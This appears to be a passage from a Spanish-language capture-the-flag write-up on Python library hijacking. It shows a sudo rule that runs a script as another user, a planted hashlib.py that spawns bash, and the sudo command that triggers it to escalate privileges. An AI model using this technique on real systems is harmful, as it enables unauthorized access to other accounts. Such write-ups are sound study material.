 De echo si hacemos un **sudo -l** vemos que podemos ejecutar justo ese script como el usuario **mario**.

```shell
sudo -l
-------------------------------------------------
User xerosec may run the following commands on ba39cbc27b36:
    (mario) NOPASSWD: /usr/bin/python3 /tmp/script.py
```

Le echamos un vistazo a su contenido:

```shell
cat script.py 
-------------------------------------------------
import hashlib

if __name__ == '__main__':
    cadena = input("Introduce la cadena: ")
    hash_md5 = hashlib.md5(cadena.encode()).hexdigest()
    print("El hash MD5 de la cadena es:", hash_md5)
```

Es un script que está haciendo uso de una librería compartida para transformar cadenas de caracteres a **MD5**.

En este punto, se nos ocurre un **Python Library Hijacking**. Un secuestro de la biblioteca que usa el script para ejecutar comandos como el usuario propietario (**mario**).

Si vemos el **path** de python. Lo primero que hace es buscar en el directorio actual las librerías compartidas, y luego ya en el resto (De izquierda a derecha). El directorio actual (donde está el script) corresponde a la cadena vacía -> **''**

```shell
python3 -c 'import sys; print(sys.path)'
-----------------------------------
['', '/usr/lib/python312.zip', '/usr/lib/python3.12', '/usr/lib/python3.12/lib-dynload', '/usr/local/lib/python3.12/dist-packages', '/usr/lib/python3/dist-packages']
```

Crearemos una librería maliciosa en el directorio **/tmp**, y python buscará primero la librería en este directorio, ejecutando nuestro código malicioso.

```shell
	cd /tmp/
	touch hashlib.py
	nano hashlib.py
```

Ponemos el siguiente contenido que queremos que se ejecute:

```python
import os
os.system("bash")
```

```shell
sudo -u mario /usr/bin/python3 /tmp/script.py
```
